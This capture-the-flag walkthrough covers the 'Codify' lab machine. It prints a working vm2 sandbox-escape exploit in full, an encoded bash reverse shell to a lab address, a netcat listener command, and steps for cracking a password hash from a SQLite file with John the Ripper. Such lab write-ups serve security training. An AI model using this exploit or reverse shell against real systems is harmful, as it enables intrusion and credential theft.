







# Codify
---
Task 1: Which is the highest open TCP port on Codify?
- 3000  
```nmap -A -T4 10.10.11.239```


Task 2: What is the relative path on the web application that offers a form to run JavaScript code?
- /editor  
```bash
1. Go to http://10.10.11.239:3000
2. Click on Try it now
3. This takes you to http://10.10.11.239:3000/editor
```

Task 3: What is the name of the sandboxing library used by the application?
- vm2  

Check the About Us page

Task 4: What is the 2023 CVE ID assigned to a remote code execution vulnerability in vm2 that was patched in version 3.9.17?
- CVE-2023-30547

1. Went to https://cve.mitre.org/cve/search_cve_list.html
2. Searched for vm2



Task 5: What user is the web application running as?
- svc

1. Found the exploit using ```searchsploit vm2```
``` bash
------------------------------------------------------------- ---------------------------------
 Exploit Title                                               |  Path
------------------------------------------------------------- ---------------------------------
vm2 - sandbox escape                                         | multiple/local/51898.c
------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```
2. Found the file doing: ```bash locate multiple/local/51898.c
/usr/share/exploitdb/exploits/multiple/local/51898.c```
```bash
const { VM } = require("vm2");
const vm = new VM();

const command = 'pwd'; // Change to the desired command

const code = `
async function fn() {
    (function stack() {
        new Error().stack;
        stack();
    })();
}

try {
    const handler = {
        getPrototypeOf(target) {
            (function stack() {
                new Error().stack;
                stack();
            })();
        }
    };

    const proxiedErr = new Proxy({}, handler);

    throw proxiedErr;
} catch ({ constructor: c }) {
    const childProcess = c.constructor('return process')().mainModule.require('child_process');
    childProcess.execSync('${command}');
}
`;

console.log(vm.run(code));
```


Task 6: There is a second NodeJS application on Codify that isn't running. What is the name of the SQLite database file used by this application?

- tickets.db

1. In Linux, web directories are located in directories such as /var/www/
2. I dug around and found SQlite database file under /var/www/contact



Task 7: What is the joshua user's password on Codify?

1. Found a better PoC at https://gist.github.com/leesh3288/381b230b04936dd4d74aaf90cc8bb244
2. Used https://www.revshells.com/ to create a bash -i reverse shell
3. Used Cyberchef to input my reverse shell and turn it to Base64. https://gchq.github.io/CyberChef/#recipe=To_Base64('A-Za-z0-9%2B/%3D')&input=c2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMzkvODA4MCAwPiYx
4. Performed ```nc -lvnp 8080``` on kali linux listening for my reverse shell
5. Placed my reverse shell script into PoC script in editor

6. Got access through my reverse shell

7. Found hash using cat /var/www/contact/tickets.db

8. Created file called hash on Kali Linux and placed hash value in there
9. Ran John the Ripper to crack the hash and obtain the password 
``` john --wordlist=/usr/share/wordlists/rockyou.txt hash```

Task 8: Submit the flag located in the joshua user's home directory.

1. Logged into Joshua with the cracked hash
2. Went to /home/joshua
3. ls and cat user.txt for flag

